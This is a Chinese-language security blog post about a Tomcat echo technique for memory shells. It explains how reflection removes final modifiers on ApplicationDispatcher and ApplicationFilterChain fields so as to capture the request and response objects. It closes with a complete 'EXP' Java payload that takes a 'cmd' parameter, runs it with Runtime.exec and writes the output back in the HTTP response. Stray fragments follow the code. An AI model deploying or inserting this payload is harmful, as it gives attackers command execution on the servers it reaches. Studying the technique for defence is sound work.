

前言
之前的内存马只是通过jsp实现，因为jsp内置request和response类，所以回显也比较方便，这次来学习一下tomcat回显的利用链。
ThreadLocal获取request和response类
总的思路是利用request类获取要执行的指令，之后把执行后的指令利用response输出。 整个利用链主要就在org.apache.catalina.core中的ApplicationFilterChain类里，第一次触发时来到static处， 此时还没执行我们的恶意代码，并且static代码段优先执行。
可以看到这里对lastServicedRequest和lastServicedResponse做了一次初始化， 这里还需要关注一下它们的属性是private static final。
{kind=link}
从ApplicationFilterChain类走完后，会开始执行我们的代码。可以看到我们的代码中有好几处使用setInt赋了一个奇怪的值， 其实这里是在修改private static final变量的值，关于如何修改private static final的值可以看下面这篇文章。
https://www.cnblogs.com/noKing/p/9038234.html接着，做完修改属性后进入一个判断，这里主要是判断第一次加载还是第二次加载，如果是第一次加载，lastServicedRequest刚刚在上面初始化完，自然便是null。 所以cmd取null并且进入第一个if中，这里对WRAP_SAME_OBJECT_FIELD进行了setBoolean为true。
{kind=link}
WRAP_SAME_OBJECT_FIELD进行了setBoolean为true后，我们第二次访问触发走到ApplicationFilterChain类的这个地方时， 会把request，response分别赋值给lastServicedRequest和lastServicedResponse。
{kind=link}
同样的在第二次跑完ApplicationFilterChain类后，又会回到我们的代码。在这个地方中利用request类获取get过来的参数， 利用Runtime.getRuntime().exec(cmd)执行完命令后，又通过获取到的response类回显。

总结
这里要访问两次的原因是第一次需通过反射修改ApplicationDispatcher.WRAP_SAME_OBJECT，将lastServicedRequest和lastServicedResponse初始化。
第二次访问是为了将request类跟response类存储到lastServicedRequest和lastServicedResponse中。再将request和response类从lastServicedRequest和lastServicedResponse取出，从request类中获取要执行的命令，最后将结果写入response回显。
EXP
try {
Class applicationDispatcher = Class.forName("org.apache.catalina.core.ApplicationDispatcher");
Field WRAP_SAME_OBJECT_FIELD = applicationDispatcher.getDeclaredField("WRAP_SAME_OBJECT");
WRAP_SAME_OBJECT_FIELD.setAccessible(true);
// 利用反射修改final变量
Field f0 = Class.forName("java.lang.reflect.Field").getDeclaredField("modifiers");
f0.setAccessible(true);
// 把final修饰符去掉
f0.setInt(WRAP_SAME_OBJECT_FIELD, WRAP_SAME_OBJECT_FIELD.getModifiers() & ~Modifier.FINAL);
Class applicationFilterChain = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
Field lastServicedRequestField = applicationFilterChain.getDeclaredField("lastServicedRequest");
Field lastServicedResponseField = applicationFilterChain.getDeclaredField("lastServicedResponse");
lastServicedRequestField.setAccessible(true);
lastServicedResponseField.setAccessible(true);
f0.setInt(lastServicedRequestField, lastServicedRequestField.getModifiers() & ~Modifier.FINAL);
f0.setInt(lastServicedResponseField, lastServicedResponseField.getModifiers() & ~Modifier.FINAL);
ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(applicationFilterChain);
ThreadLocal<ServletResponse> lastServicedResponse = (ThreadLocal<ServletResponse>) lastServicedResponseField.get(applicationFilterChain);
// 判断第一次是否反序列化成功
String cmd = lastServicedRequest != null ? lastServicedRequest.get().getParameter("cmd") : null;
// 第一个if内为第一次触发时执行的代码
if (!WRAP_SAME_OBJECT_FIELD.getBoolean(applicationDispatcher) || lastServicedRequest == null || lastServicedResponse == null) {
WRAP_SAME_OBJECT_FIELD.setBoolean(applicationDispatcher, true);
lastServicedRequestField.set(applicationFilterChain, new ThreadLocal());
lastServicedResponseField.set(applicationFilterChain, new ThreadLocal());
} else if (cmd != null) {
InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
StringBuilder sb = new StringBuilder("");
byte[] bytes = new byte[1024];
int line = 0;
while ((line = inputStream.read(bytes)) != -1) {
sb.append(new String(bytes, 0, line));
}
Writer writer = lastServicedResponse.get().getWriter();
writer.write(sb.toString());
writer.flush();
}
} catch (Exception e) {
e.printStackTrace();
}There Is Nothing Below
 Turn at the next intersection.
Turn at the next intersection.